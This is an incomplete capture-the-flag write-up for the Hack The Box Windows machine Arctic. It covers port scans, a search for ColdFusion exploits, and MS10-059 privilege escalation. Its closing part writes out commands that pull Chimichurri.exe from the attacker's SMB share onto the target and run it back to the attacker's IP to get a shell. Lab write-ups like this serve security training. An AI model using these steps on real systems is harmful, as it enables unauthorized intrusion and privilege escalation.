 # Hack the Box - Arctic (INCOMPLETE)

```CSS
Machine IP: 10.10.10.11 - Windows
OS Name: Microsoft Windows Server 2008 R2 Standard
OS Version: 6.1.7600 N/A Build 7600
System Type: x64
```

```CSS
▶ nmap -Pn -sS -p- 10.10.10.11 -T4 --min-rate 1000 -oN surface.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:09 IST
Nmap scan report for 10.10.10.11
Host is up (0.097s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown
```

```css
▶ nmap -sC -sV -p 135,8500,49154 10.10.10.11 -oN deep.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-01 13:11 IST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.11
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.00 seconds
```

![image](https://user-images.githubusercontent.com/83878909/229273435-61068519-cbd8-4c2c-be4f-6dd3c1a87e15.png)
![image](https://user-images.githubusercontent.com/83878909/229273524-6f7ba081-63f5-4fe6-9b4e-d228ef07ec08.png)
![image](https://user-images.githubusercontent.com/83878909/229273721-64bd7f7c-3270-4b3c-99d7-2cb0791a8343.png)

---

## Search for Exploits
```CSS
▶ searchsploit ColdFusion
```
![image](https://user-images.githubusercontent.com/83878909/229282725-1fd751df-4992-44d4-9c8a-c5d2527867c3.png)

### Modify the Exploit Code
![image](https://user-images.githubusercontent.com/83878909/229283393-0791183b-a971-4d68-a64e-32e7e652d8f8.png)

## User Access
![image](https://user-images.githubusercontent.com/83878909/229284344-ca6b43e3-36da-4815-9b62-4432377668eb.png)

## Privilege Escalation
### System Information Gathering
![image](https://user-images.githubusercontent.com/83878909/229284588-f0e96832-3491-4d2b-a027-54795caa0a55.png)

  - The target machine's kernel is vulnerable to **MS10-059**.
  - Exploit [(Link)](https://github.com/egre55/windows-kernel-exploits)

### Exploit
  - 
```CSS
▶ impacket-smbserver share $(pwd) -smb2support 
```
```CSS
C:\ColdFusion8\runtime\bin>copy \\10.10.14.34\share\Chimichurri.exe
```
![image](https://user-images.githubusercontent.com/83878909/229303301-4b8fef70-a000-42f7-9b72-2dc8c7af037a.png)


### Execute the Exploit
```CSS
C:\ColdFusion8\runtime\bin>chimichurri.exe 10.10.14.34 31337
```
